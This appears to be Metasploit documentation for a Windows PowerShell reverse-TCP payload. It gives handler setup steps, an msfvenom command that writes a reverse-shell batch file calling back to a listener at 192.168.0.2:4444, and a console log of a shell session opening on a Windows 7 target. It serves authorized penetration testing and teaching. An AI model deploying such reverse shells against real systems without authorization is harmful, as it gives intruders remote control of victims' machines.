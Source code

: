 ## Vulnerable Application

This powershell payload is suitable for the following environments:

* Windows 7
* Windows Server 2012
* Windows 10

## Verification Steps

1. Do: `use exploit/multi/handler`
2. Do: `set payload cmd/windows/powershell_reverse_tcp`
2. Do: `set LHOST [IP]`
3. Do: `set LPORT [PORT]`
4. Do: `run`

## Scenarios

### Generating a batch file with msfvenom

```
msfvenom -p cmd/windows/powershell_reverse_tcp LHOST=192.168.0.2 LPORT=4444 -o powershell_reverse_tcp.bat
```

The output batch file can be executed directly on the target, or pasted as a command.

### Example usage on Windows 7 target

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload cmd/windows/powershell_reverse_tcp
payload => cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Powershell session session 1 opened (192.168.0.2:4444 -> 192.168.0.2:49106 ) at 2021-11-02 12:28:28 +0000

User @ USER-PC
PS C:\Users\User> exit
[*] 192.168.0.2 - Powershell session session 1 closed.
```

## Options

### LOAD_MODULES

A list of powershell modules (separated by a commas) to download.

